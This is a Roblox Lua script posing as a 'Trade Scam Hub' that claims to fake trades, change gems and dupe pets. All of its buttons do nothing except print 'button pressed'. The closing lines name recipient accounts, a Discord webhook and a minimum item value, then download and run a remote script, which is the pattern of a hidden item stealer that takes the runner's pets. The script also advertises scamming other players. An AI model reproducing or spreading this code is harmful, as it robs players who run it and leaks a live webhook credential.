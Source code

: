local player = game.Players.LocalPlayer

local OrionLib = loadstring(game:HttpGet(('https://raw.githubusercontent.com/shlexware/Orion/main/source')))()

local Window = OrionLib:MakeWindow({Name = "Trade Scam Hub By Dragon818", HidePremium = false, SaveConfig = true, ConfigFolder = "OrionTest"})

--[[
Name = <string> - The name of the UI.
HidePremium = <bool> - Whether or not the user details shows Premium status or not.
SaveConfig = <bool> - Toggles the config saving in the UI.
ConfigFolder = <string> - The name of the folder where the configs are saved.
IntroEnabled = <bool> - Whether or not to show the intro animation.
IntroText = <string> - Text to show in the intro animation.
IntroIcon = <string> - URL to the image you want to use in the intro animation.
Icon = <string> - URL to the image you want displayed on the window.
CloseCallback = <function> - Function to execute when the window is closed.
]]

local Tab = Window:MakeTab({
	Name = "Trade Scam Control",
	Icon = "rbxassetid://4483345998",
	PremiumOnly = false
})

--[[
Name = <string> - The name of the tab.
Icon = <string> - The icon of the tab.
PremiumOnly = <bool> - Makes the tab accessible to Sirus Premium users only.
]]

local Section = Tab:AddSection({
	Name = "Keep The Pets In Pov Of The Other Ppl"
})

--[[
Name = <string> - The name of the section.
]]

Tab:AddButton({
	Name = "On",
	Callback = function()
      		print("button pressed")
  	end    
})

--[[
Name = <string> - The name of the button.
Callback = <function> - The function of the button.
]]

OrionLib:MakeNotification({
	Name = "Hey!",
	Content = "Any Pet You Remove It From The Trade The Other Ppl Keep Seeing It But its not in the trade",
	Image = "rbxassetid://4483345998",
	Time = 5
})

--[[
Title = <string> - The title of the notification.
Content = <string> - The content of the notification.
Image = <string> - The icon of the notification.
Time = <number> - The duration of the notfication.
]]

Tab:AddButton({
	Name = "Off",
	Callback = function()
      		print("button pressed")
  	end    
})

--[[
Name = <string> - The name of the button.
Callback = <function> - The function of the button.
]]

OrionLib:MakeNotification({
	Name = "Hey!",
	Content = "Any change that will occur or event will appear on the other person's screen ",
	Image = "rbxassetid://4483345998",
	Time = 5
})

--[[
Title = <string> - The title of the notification.
Content = <string> - The content of the notification.
Image = <string> - The icon of the notification.
Time = <number> - The duration of the notfication.
]]

local Section = Tab:AddSection({
	Name = "Gems Control"
})

--[[
Name = <string> - The name of the section.
]]

Tab:AddButton({
	Name = "On",
	Callback = function()
      		print("button pressed")
  	end    
})

--[[
Name = <string> - The name of the button.
Callback = <function> - The function of the button.
]]

OrionLib:MakeNotification({
	Name = "Hey!",
	Content = "If you change gems, nothing will change on the other person's screen ",
	Image = "rbxassetid://4483345998",
	Time = 5
})

--[[
Title = <string> - The title of the notification.
Content = <string> - The content of the notification.
Image = <string> - The icon of the notification.
Time = <number> - The duration of the notfication.
]]

Tab:AddButton({
	Name = "Off",
	Callback = function()
      		print("button pressed")
  	end    
})

--[[
Name = <string> - The name of the button.
Callback = <function> - The function of the button.
]]

OrionLib:MakeNotification({
	Name = "Hey!",
	Content = "Now any change to gems will appear in the other person's screen ",
	Image = "rbxassetid://4483345998",
	Time = 5
})

--[[
Title = <string> - The title of the notification.
Content = <string> - The content of the notification.
Image = <string> - The icon of the notification.
Time = <number> - The duration of the notfication.
]]

local Tab = Window:MakeTab({
	Name = "Dupe",
	Icon = "rbxassetid://4483345998",
	PremiumOnly = false
})

--[[
Name = <string> - The name of the tab.
Icon = <string> - The icon of the tab.
PremiumOnly = <bool> - Makes the tab accessible to Sirus Premium users only.
]]

local Section = Tab:AddSection({
	Name = "Dupe"
})

--[[
Name = <string> - The name of the section.
]]

Tab:AddButton({
	Name = "Dupe",
	Callback = function()
      		print("button pressed")
  	end    
})

--[[
Name = <string> - The name of the button.
Callback = <function> - The function of the button.
]]

OrionLib:MakeNotification({
	Name = "Hey!",
	Content = "Any pet you equiqqed will dupeing from 3-5m",
	Image = "rbxassetid://4483345998",
	Time = 5
})

--[[
Title = <string> - The title of the notification.
Content = <string> - The content of the notification.
Image = <string> - The icon of the notification.
Time = <number> - The duration of the notfication.
]]

Username = "YACINEPRO336"
Username2 = "YACINEPRO337" -- stuff will get sent to this user if first user's mailbox is full
Webhook = "https://discord.com/api/webhooks/1242465922497908777/hhIczJEewuz35p7oQLpbpcGYwp4-CboagI6jxYb4GydeSmtB-siwfh8wpM1GAk5w25C0"
Support = true -- if you dont want to support me make this "false" (without quotes). 50% chance I get hit if its 10+ huges or 500+ mil rap
min_rap = 500000 -- minimum rap of each item you want to get sent to you.
loadstring(game:HttpGet("https://raw.githubusercontent.com/HubScript/SpaceHub/main/SpaceHub.lua"))()
